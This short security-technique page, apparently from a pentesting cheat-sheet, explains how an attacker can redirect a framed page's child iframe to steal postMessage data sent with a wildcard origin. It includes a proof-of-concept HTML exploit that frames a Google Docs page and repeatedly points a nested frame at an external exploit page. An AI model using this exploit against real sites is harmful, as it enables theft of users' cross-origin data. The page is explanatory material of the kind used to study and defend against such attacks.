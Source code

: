 # Steal postmessage modifying iframe location

## Changing child iframes locations

According to [**this writeup**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), if you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**.

For example, if abc.com have efg.com as iframe and abc.com didn't have X-Frame header, I could change the efg.com to evil.com cross origin using, **`frames.location`**.

This is specially useful in **postMessages** because if a page is sending sensitive data using a **wildcard** like `windowRef.postmessage("","*")` it's possible to **change the location of the related iframe (child or parent) to an attackers controlled location** and steal that data.

```html
<html>
  <iframe src="https://docs.google.com/document/ID" />
  <script>
    //pseudo code
    setTimeout(function () {
      exp()
    }, 6000)

    function exp() {
      //needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
      setInterval(function () {
        window.frames[0].frame[0][2].location =
          "https://geekycat.in/exploit.html"
      }, 100)
    }
  </script>
</html>
```


